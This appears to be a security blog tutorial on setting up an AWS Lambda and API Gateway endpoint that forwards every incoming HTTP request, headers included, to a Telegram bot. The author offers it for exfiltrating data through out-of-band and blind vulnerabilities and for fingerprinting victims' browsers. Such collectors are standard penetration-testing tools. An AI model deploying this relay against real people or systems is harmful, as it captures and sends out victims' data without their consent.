



Creating a Serverless Exfiltrating Bot with AWS Lambda and Telegram
Helloooooooooo 🤗🤗🤗, in this post I will show you how to create a serverless exfil bot with Telegram and AWS Lambda + API Gateway.
This can help you with the exfiltration of data in OOB and Blind vulnerabilities, also for fingerprinting the victims browser, etc.
Creating the serverless function
First we have to get an AWS account obviously, then we select Lambda in the services tab, after that we will get to a panel with a list of previously created lambda functions, we just create a new function by clicking at the orange Create a function button:

We select Create from zero, specify the name of the function and select the programming language we are going to use, in this case we select Python 3.8. Then we just click on the orange Create a function button:
After creating the function we get a panel as shown in the image with a template function that returns Hello from Lambda!
For this use case we must load some external libraries on to the serverless function, this because AWS Lambda env by default doesn’t loads the generic Python SDK, in other words, in this case we need to use the requests Python library and the base env for a lambda function doesn’t have it. For importing these “generic†Python libraries we must click were it puts Layers, under the name of the function.
Then we click at Add layer
Here we are presented to a panel to select with layer we are going to import or add. We select the Specify ARN, and add the following ARN:
arn:aws:lambda:us-east-1:668099181075:layer:AWSLambda-Python-AWS-SDK:4
Then we click Add:
With all that we are just created the base for our Lambda function.
Creating the API
Now in the services tab we select API Gateway, were the following panel will load. Here we must click at Add API:

We select the type of API we are going to use, in this case an API HTTP
Now we must select the serverless function we are going to integrate with the API, and specify the name of the API.
In the Config routes panel we should specify the ANY method, so we can trigger the serverless function with any HTTP method. Also we must specify a base path:
In this step we let it as default:
Here we just click at Create

After the creation of the API we will get a URL of the API that will trigger our serverless function:
There is a menu at the left of the screen, there we select the Routes option:
Here we will place a default route that will trigger our serverless function if any of the other routes doesn’t match in the HTTP request, we must put the $default value and the click Create:
We must specify an integration for the default route, here we select again our Lambda function:

After the integration between the route and the serverless function, we must click at Deploy:
Now for testing purposes we check with the URL provided before in our browser to see if the integration was successful
Updating the serverless function code
Now we must modify the code of the serverless function, with the following code:
import json
from botocore.vendored import requests
def telegram_bot_sendtext(bot_message):
bot_token = ''
bot_chatID = ''
send_text = 'https://api.telegram.org/bot' + bot_token + '/sendMessage?chat_id=' + bot_chatID + '&parse_mode=Markdown&text=' + bot_message
response = requests.get(send_text)
def lambda_handler(event, context):
headers = ""
for key, value in event["headers"].items():
headers = headers + key + ":" + value + "\n"
telegram_bot_sendtext(json.dumps(event))
# TODO implement
return {
'statusCode': 200
}
Dont forget to Deploy!!!                   👇👇
Creating the telegram bot
We have to send a message to @BotFather, with the /newbot command, then specify the name of the bot, and we will get a Bot Token, as shown in the following image:
We send a message to our new bot, any message, or just /start:

Now we need a Chat ID for our serverless function work. So we must go to the following URL specifying the Bot Token, and taking note of the id field of the chat object:
https://api.telegram.org/bot<bot-token>/getUpdates
After adding the Bot Token and the Chat ID in the code of the serverless function, we Deploy:
We test the bot going to the URL provided after creating the API:
If everything is fine, we should get a message at Telegram with the HTTP request details,
And that’s it, we just built a nice OOB bot XD 🥳🥳🥳🥳🥳🥳🥳
In the next post I will show you how to use your own domain in the URL, to get something like this:
Cheers!!!! 😉
If any comment with this or suggestion, please contact me at xpl0ited1@pm.me